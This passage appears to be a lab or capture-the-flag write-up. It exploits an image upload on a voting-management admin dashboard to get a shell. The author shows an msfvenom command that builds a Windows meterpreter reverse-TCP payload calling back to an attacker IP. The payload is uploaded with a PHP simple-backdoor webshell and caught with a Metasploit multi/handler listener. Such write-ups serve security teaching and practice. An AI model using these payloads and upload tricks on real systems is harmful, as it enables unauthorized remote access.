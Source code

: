 ## **Admin Dashboard**
Logging in to the admin dashboard, we are presented with a voting management site.

![admin-home](./admin-home.png "admin-home")

Interacting with the website, there was not much to see. However, the broken images caught my attention. Clicking on the user profile on the top right, an option to update profile is available. This allows us to add a new image for the profile and could be manipulated to obtain a shell.

# Exploitation with Metasploit
We can use a PHP reverse shell payload or an exe payload with a PHP backdoor payload to get the user shell. For the demonstration, I have used the latter method.

## **Generate payload**
```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.173 LPORT=1337 -f exe > exploit.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```
The PHP payload was taken from the "/usr/share/webshells/php/simple-backdoor.php".

## **Metasploit shell**
Once the two payloads were uploaded successfully, I launched a metasploit handler module to listen and navigated to the /images/ folder on the webserver. 
```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.173:1337 
```
